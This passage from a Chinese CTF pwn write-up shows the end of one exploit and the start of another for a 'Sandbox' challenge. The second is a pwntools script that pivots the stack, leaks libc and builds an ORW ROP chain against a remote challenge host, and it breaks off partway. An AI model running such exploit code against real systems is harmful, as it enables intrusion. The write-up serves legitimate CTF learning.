 ```plain
ru('life?\n')
s(b'\n')

pl=p64(bss4+0x30)+p64(pop_r12)+p64(0)+p64(og)
#dbg()
s(pl)

itr()
```

‍

### 黄河流域-Sandbox

同上一题只有 0x10 大小构造，优先考虑栈迁移

泄露 libc 地址后，构造 rop 链来 orw

由于 read 读入空间不够，orw 分两次送入

```plain
from pwn import *

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

#r=process('./pwn')
r=remote('1.13.251.106',8002)
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')


li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
   gdb.attach(proc.pidof(r)[0])
   pause()

bss = 0x404200
bss5 = 0x404500-0x200
bss6 = 0x404600-0x200
bss7 = 0x404700-0x200
bss8 = 0x404800-0x200
bss9 = 0x404900-0x200

rdi=0x401283
rsi_r15=0x401281
ret=0x40101a

main=0x4011DB
read=0x4011FD

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

r.recv()
pay=b'a'*0x60+p64(bss)+p64(read)
r.send(pay)


pay=b'a'*0x60+p64(bss+0x60)+p64(read)
r.send(pay)
```